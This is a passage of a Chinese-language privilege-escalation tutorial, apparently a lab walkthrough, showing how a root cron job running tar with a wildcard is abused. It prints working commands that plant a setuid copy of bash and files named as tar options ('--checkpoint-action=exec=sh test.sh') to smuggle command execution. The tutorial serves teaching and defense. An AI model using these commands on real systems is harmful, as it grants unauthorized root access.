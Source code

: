 

#### 第二种：命令问题

##### 原理

- 利用通配符配合命令参数自定义命令实现提权

不安全定时任务备份命令

- 参考命令：[https://www.cnblogs.com/manong--/p/8012324.html](https://www.cnblogs.com/manong--/p/8012324.html)

```shell
cd /home/undead/script;tar czf /tmp/backup.tar.gz *
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/undead/script/test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
```

##### 执行cat /etc/crontab命令

查看当前系统的定时任务，发现一个名为backup.sh的备份定时任务，而且是以root权限运行的。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-9.png)

定时任务每分钟执行一次，打开backup.sh，发现是将 /home/undead/script目录下的所有文件打包为backup.tar.gz，并放到/tmp目录下。

![64-10](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-10.png)

使用以下命令，在/home/undead/script目录下创建3个文件

```shell
echo 'cp bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/undead/script/test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-11.png)



等待一分钟，系统定时任务执行，打包，打开/tmp目录查看，发现test.sh等文件打包为一个backup.tar.gz文件，但我们刚才创建的另外两个文件并未在backup.tar.gz中，而是另外生成了一个bash文件。

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-12.png)



这是为什么呢？原因是定时任务打包时使用了*将整个文件夹下的文件打包，而当系统真正执行打包操作时，会将目录下的所有文件名一个一个传参给*执行打包操作。前几个文件都没问题，但是当打包到--checkpoint=1文件和--checkpoint-action=exec=sh test.sh文件时，执行的相当于

```shell
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh test.sh
```

而 --checkpoint、--checkpoint-action正好是tar命令的参数，打包到这里就会导致tar命令直接把--checkpoint=1和--checkpoint-action=exec=sh test.sh两个文件名当做参数执行，而不打包文件。

​	--checkpoint-action=exec=sh test.sh参数的意思是执行同目录下test.sh文件，test.sh文件内容又是
